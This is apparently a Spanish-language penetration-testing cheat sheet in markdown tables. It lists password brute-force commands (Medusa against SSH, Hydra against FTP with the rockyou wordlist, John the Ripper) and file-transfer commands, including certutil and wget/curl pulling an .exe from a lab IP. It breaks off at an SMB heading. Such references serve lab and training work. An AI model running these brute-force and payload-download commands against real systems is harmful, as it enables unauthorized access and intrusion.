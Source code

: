 ## Otros Métodos de Cracking

| **Comando**                                                             | **Descripción** |
|-------------------------------------------------------------------------|-----------------|
| `medusa -h 10.10.10.10 -u user -P /usr/share/wordlists/rockyou.txt ssh`  | Realizar un ataque de fuerza bruta contra un servidor SSH con Medusa, usando una lista de contraseñas `rockyou.txt`. |
| `hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.10`   | Ataque de fuerza bruta contra un servidor FTP con el nombre de usuario `admin` y una lista de contraseñas. |
| `john --show --format=raw-md5 hashes.txt`                                | Mostrar las contraseñas que han sido descifradas a partir de un archivo de hashes MD5. |


# Transferir archivos

## Certutil

| **Comando**                                                                 | **Descripción** |
|-----------------------------------------------------------------------------|-----------------|
| `certutil -urlcache -f http://10.10.10.10/test.exe test.exe`                | Utilizar `certutil` para descargar un archivo desde un servidor HTTP. Este comando es útil cuando estamos trabajando en un entorno Windows y necesitamos transferir archivos a través de HTTP. |

## SCP (Secure Copy)

| **Comando**                                                                 | **Descripción** |
|-----------------------------------------------------------------------------|-----------------|
| `scp /path/to/file username@remote:/path/to/destination`                    | Transferir un archivo a una máquina remota utilizando SCP (Secure Copy Protocol). El comando transfiere el archivo desde la máquina local al destino especificado en la máquina remota. |
| `scp username@remote:/path/to/file /local/path`                              | Descargar un archivo de una máquina remota hacia la máquina local utilizando SCP. |
| `scp -r /local/folder username@remote:/remote/folder`                        | Transferir una carpeta completa desde la máquina local a la remota. El parámetro `-r` se usa para copiar directorios recursivamente. |

## HTTP (Usando Python como servidor)

| **Comando**                                                                 | **Descripción** |
|-----------------------------------------------------------------------------|-----------------|
| `python3 -m http.server 8080`                                                | Iniciar un servidor HTTP simple en el puerto 8080 para servir archivos. Esto permite transferir archivos a través de HTTP utilizando un navegador web o `wget`/`curl`. |
| `python3 -m http.server 8000 --bind 10.10.10.10`                             | Iniciar un servidor HTTP en el puerto 8000 y vincularlo a una IP específica (`10.10.10.10` en este caso). Este comando es útil cuando necesitas servir archivos en una red específica. |

## Otros Métodos de Transferencia de Archivos

| **Comando**                                                                 | **Descripción** |
|-----------------------------------------------------------------------------|-----------------|
| `wget http://10.10.10.10/test.exe`                                           | Descargar un archivo desde un servidor HTTP utilizando `wget`, que es una herramienta común en Linux. |
| `curl -O http://10.10.10.10/test.exe`                                        | Descargar un archivo usando `curl`. Similar a `wget`, pero más versátil, ya que permite opciones avanzadas de transferencia. |
| `rsync -avz /local/folder username@remote:/remote/folder`                    | Transferir archivos de forma eficiente utilizando `rsync`. Es muy útil para sincronizar directorios entre máquinas locales y remotas. |

## Transferencia usando SMB
